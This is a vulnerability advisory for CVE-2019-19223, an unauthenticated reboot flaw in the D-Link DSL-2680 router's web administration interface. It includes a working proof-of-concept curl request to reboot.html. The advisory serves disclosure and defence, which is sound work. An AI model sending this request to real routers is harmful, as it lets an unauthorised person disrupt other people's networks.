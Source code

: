 ### CVE-2019-19223:  DSL-2680 Broken Access Control - Reboot Router
**CVE:** CVE-2019-19223    
**Vulnerability Type**: Broken Access Control     
**Affected Product:** D-Link DSL-2680 - Firmware: EU_1.03    
**Affected Component:** D-Link DSL-2680: Web Administration Interface    
**Attack Type:** Remote    
**Impact:** Reboot router without being authenticated on the admin interface    

**Description:**    
A Broken Access Control vulnerability in the D-Link DSL-2680 web administration interface (Firmware EU_1.03)
allows an attacker to reboot the router by submitting a reboot.html GET request without being authenticated 
on the admin interface.

**Proof Of Concept:**    
As a proof-of-concept a GET request should be made to the following URI: `http://<x.x.x.x>/reboot.html`
After this request the router will reboot without any proper authentication.    

Curl PoC (GET Request):
```
curl http://192.168.1.1/reboot.html
```
